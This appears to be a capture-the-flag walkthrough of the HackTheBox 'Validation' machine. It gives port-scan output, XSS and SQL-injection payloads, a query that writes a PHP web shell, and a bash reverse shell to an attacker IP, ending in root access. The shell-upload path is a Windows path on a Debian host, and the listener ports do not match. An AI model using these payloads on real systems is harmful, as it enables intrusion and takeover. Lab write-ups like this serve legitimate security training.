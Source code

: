 # HackTheBox Validation Walkthrough"

![](images/pexels-andri-218413-scaled.jpg)

I've been experimenting with Rustscan lately and it's a lot faster than NMAP.

Here's the GitHub Link. [https://github.com/RustScan/RustScan](https://github.com/RustScan/RustScan)

rustscan -a 10.10.11.116 -- -A -Pn -T4 -sC -sV

Open 10.10.11.116:22
Open 10.10.11.116:80
Open 10.10.11.116:4566
Open 10.10.11.116:8080

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.48 ((Debian))
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache/2.4.48 (Debian)
|\_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    syn-ack nginx
|\_http-title: 403 Forbidden
8080/tcp open  http    syn-ack nginx
|\_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

We got a few ports open, 80 is the most interesting right now.

![](images/image-11-1024x490.png)

<script>alert('1')</script>

The WebApp is vulnerable to stored XSS as well as reflective XSS but that doesn't really help us much.

Intercepting the request in Burp when clicking "Join Now". We can try to see if SQLi is possible.

![](images/image-12-1024x751.png)

Adding a ' after Brazil returns an error. The Web App is likely vulnerable to a SQLi attack.

You may have to copy the response cookie into the request cookie to get the error to show up.

![](images/image-14-1024x807.png)

' union select version()-- -

You will need to URL encode that line to get it to work.

![](images/image-18-1024x785.png)

The Web App returns MariaDB 10.5.11. We executed a successful SQLi attack and got some information disclosure.

Next, let's try and get a reverse shell.

Upon searching the net, I figured out I could upload a file using MariaDB.

' UNION SELECT "<?php SYSTEM($\_REQUEST\['cmd'\]) ?>" INTO OUTFILE "C:\\wamp64\\www\\wordpress/shell.php"-- -

![](images/image-16.png)

The WebApp will return an error, however if we visit the link http://10.10.11.116/shell.php We can see that it's working.

I tried to check what is in /bin to see what program I can use for the reverse shell.

![](images/image-17-1024x307.png)

bash is running, that's all I need.

I got my reverse shell one liner from this useful website [https://www.revshells.com/](https://www.revshells.com/)

Start a NC listener on the Kali machine.

nc -lnvp 9999

Now this took me a while to figure out.

bash -i >& /dev/tcp/10.10.14.19/4444 0>&1

This line needs to be encoded and passed to bash -c.

Here is the final URL.

http://10.10.11.116/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.19/9999+0>%261'

![](images/image-19.png)

And we've got a shell!

The next part was pretty easy. We can use python HTTP server and curl to get linpeas.sh over or we can simply look in config.php to get the password.

![](images/image-20.png)

The password is for a username, but it also happens to work for root.

And we're all done!
